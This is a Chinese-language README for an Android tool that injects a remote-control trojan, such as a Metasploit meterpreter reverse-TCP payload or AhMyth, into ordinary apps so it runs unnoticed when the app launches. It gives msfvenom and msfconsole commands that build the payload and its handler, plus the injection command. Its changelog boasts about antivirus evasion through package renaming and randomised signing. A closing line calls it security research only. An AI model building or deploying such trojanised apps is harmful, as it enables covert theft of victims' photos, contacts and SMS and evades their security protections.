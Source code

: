 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的App中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控App。

* 520ApkBox是一个java编写的App，主要作用是一个安卓虚拟机，任何App可以不用任何修改就可以正常运行，可以绕过现在各种App的安全检测。同时此App还是一个加载器，通过DexClassesLoder加载远控的Dex文件并启动上线。

* 520ApkHook是Java编写的注入工具，将被注入的App和远控App注入到一个App中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo

## 版本升级

* 2024-06-20
  * 修复各种bug。
  * 新增了改包模块，把payload apk的包名修改掉，去掉特征，避免被杀软识别。目前修改后效果不错，各安全管家、virustotal都不报毒。

* 2024-05-21
  * 修复了520apkhook的相关问题（app中文名报错、apk签名被标记。）

  * 新增了随机签名的功能，先获取原始app的相关签名信息，根据这些信息重新生成新的签名，签名密码每次都不一样，避免被标记。(有些app会无法识别签名信息，可以自己用jadx获取到app的签名信息，然后生成证书，使用[ApkSigner](https://github.com/jixiaoyong/ApkSigner)进行重新签名。华为目前还有问题，改签名也会被识别恶意app)

  * 更换了两个安卓虚拟机，[NewBlackbox](https://github.com/ALEX5402/NewBlackbox)、[SpaceCore](https://github.com/FSpaceCore/SpaceCore)。安卓版本支持到`5-14`。

  * 新增了`-b, --boxName`参数，用来指定`SpaceCore`还是`NewBlackBox`，默认SpaceCore，如果出现卡顿或者闪退，可以尝试切换到NewBlackBox。直接指定参数 `-b NewBlackBox` 即可。

* 2023-06-05
  * 上版本忘记添加32位app支持，此次升级加入32位app支持。更换了虚拟机项目依赖，稳定性更好一下。

  * 支持安卓5-12版本，不支持最新的安卓13。

  * 问题1、目前有问题的app，微信、ES文件浏览器。

  * 问题2、被注入的app读取到的文件、图片、通讯录、短信是虚拟机的内容，但是注入的payload获取到的是实体机的内容。


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. 下载Releases中打包好的jar包  

 * [a520ApkHook-1.2.1-jar-with-dependencies.jar](https://github.com/ba0gu0/520apkhook/releases/download/v1.2/a520ApkHook-1.2.1-jar-with-dependencies.jar)

2. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
3. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j
```
4. 520ApkHook

> msf由于加载机制问题，需要`-o`参数，才可以获取照片、通讯录、短信等。
>
> 如果在运行app时，提示版本太老、一堆权限提示，可以把`-o`去掉，但是权限会出问题。

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar -o ~/Downloads/想进行注入的App.apk ~/Downloads/msf.apk

```

5. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 推荐搭配`AhMyth`，配在一起贼爽。

> 使用AhMyth时，不需要添加`-o`参数，不然app会提示版本太老，一堆权限提示太假。
>
> [https://github.com/Morsmalleo/AhMyth](https://github.com/Morsmalleo/AhMyth)


## BUG

* 使用SpaceCore作为基础容器，能运行90%的app，但可能会出现app不流畅。
* 使用NewBlackBox作为基础容器，目前测试不能在模拟器中运行，微信无法启动。
* 其他未测试...

## 项目依赖

* 本项目参考以下项目
* [https://github.com/ALEX5402/NewBlackbox](https://github.com/ALEX5402/NewBlackbox)
* [https://github.com/FSpaceCore/SpaceCore](https://github.com/FSpaceCore/SpaceCore)


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码 (欢迎大佬提交pull) .



## Start 曲线

[![Start 曲线](https://starchart.cc/ba0gu0/520apkhook.svg)](https://starchart.cc/ba0gu0/520apkhook)
